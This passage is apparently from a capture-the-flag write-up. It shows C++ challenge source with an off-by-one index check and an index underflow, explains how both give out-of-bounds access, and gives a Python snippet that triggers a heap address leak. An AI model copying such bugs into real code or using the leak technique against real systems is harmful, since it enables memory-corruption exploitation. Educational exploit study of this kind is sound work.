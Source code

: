 Index-based actions read an index via `get_index()`; `tire()` does a virtual call through `workers[i]`: 

```C
int get_index(void) {
    int i;
    std::cout << "Which index?\n>> ";
    std::cin >> i;
    if (i < 0 || i > MAX_WORKERS) {           // BUG: off-by-one
        std::cout << "You don't have that many workers!\n";
        exit(1);
    }
    return i;
}

void tire(void) {
    int i = get_index();
    if (workers[i] != 0) {
        workers[i]->work();                    // virtual call
    }
}
```

“View history” tries to map each stored integer to human-readable text using `choice_map[choice-1]`:

```C
void view_history(void) {
    std::cout << "So far, you have:\n";
    for (int choice : choice_history) {
        std::string choice_text;
        if (choice <= choice_map.size()) {     // BUG: allows choice==0
            choice_text = choice_map[choice - 1]; // underflows to [-1]
        } else {
            choice_text = "UNKNOWN";
        }
        std::cout << "- " << choice_text << " (" << choice << ")\n";
    }
}
```

So the vuln here is:
1. `get_index()` rejects only `i > MAX_WORKERS`, so `i == 8` is accepted while `workers[8]` is one past the 8-element array. Because the globals are declared consecutively, that OOB slot overlaps the first field of `choice_history`, letting us corrupt its metadata by writing/reading `workers[8]`.
2. Because the program records the choice before validation, entering `0` stores `0` into `choice_history`. Later, `view_history()` checks `choice <= choice_map.size()` and then indexes choice_map[choice-1]. For `choice==0` that becomes `choice_map[-1]` → OOB read, which we use as a leak primitive. 

```python
for i in range(4):
    menu(0)
hire(8) # Trigger leak
menu(4)
ru("(33)\n")
rl()
ru("(")
heap_leak = int(ru(")")) << 12
```
